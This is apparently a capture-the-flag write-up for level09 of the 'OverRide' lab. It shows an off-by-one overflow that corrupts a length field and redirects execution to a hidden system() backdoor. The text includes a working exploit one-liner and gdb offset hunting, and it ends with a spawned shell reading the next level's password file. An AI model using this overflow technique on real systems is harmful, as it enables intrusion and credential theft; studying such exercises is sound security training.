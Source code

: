 
When executing this program, we are prompted to enter a username and then a message

```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: xavier
>: Welcome, xavier
>: Msg @Unix-Dude
>>: hola
>: Msg sent!
```

By observing the code, we can see a function called secret_backdoor that is not called. This function allows us to execute whatever we want using the system() function.

```c
long long secret_backdoor()
{
    char v0;  // [bp-0x88]

    fgets(&v0, 128, stdin);
    return system(&v0);
}
```

So, we can deduce that we will need to modify the execution flow by modifying the RIP register at a certain point.

We can see that the program uses a message struct which stores the username, the message, and the message size.

```c
struct	s_message
{
	char	message[140];
	char	username[40];
	int		len;
}   t_message;
```

We can also see that in the set_username function, during the loop which writes the user's name into the struct, instead of looping 40 times, we will loop 41 times due to the <= 40 condition.

```c
for (v2 = 0; v2 <= 40 && (&v1)[v2]; v2 += 1)
    {
        a0->username[v2] = (&v1)[v2];
    }
```

This will allow us to overflow the len attribute of our struct and write the first high bit of this latter.
This vulnerability will allow us to overflow in set_msg at the level of strncpy which will write to a0->len of the message that we will write using fgets into a0->message.

```c
fgets(&v1, 0x400, stdin);
strncpy(a0->message, &v1, a0->len);
```

This means that we know what our payload will look like.

```
(python -c 'print("a"*40 + "\xff" + "\n" + "a" * OFFSET + "secret_backdoor") + "\n" + "/bin/sh"'; cat) | ./level09
```


To find the offset, we use a pattern generator. https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
```
(gdb) run < <(python -c 'print("a"*40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag|6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4|Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")')
```
```
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp
0x7fffffffe5d8:  "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4"
```

```diff
- 6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4
```
We can see that this string starts from 200 of the pattern.

offset = 200


Now let's find the address of secret_backdoor.
```
(gdb) print secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```
secret_backdoor = 0x55555555488c

(python -c 'print("a"*40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00") + "\n" + "/bin/sh"'; cat) | ./level09

```
level09@OverRide:~$ (python -c 'print("a"*40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00") + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
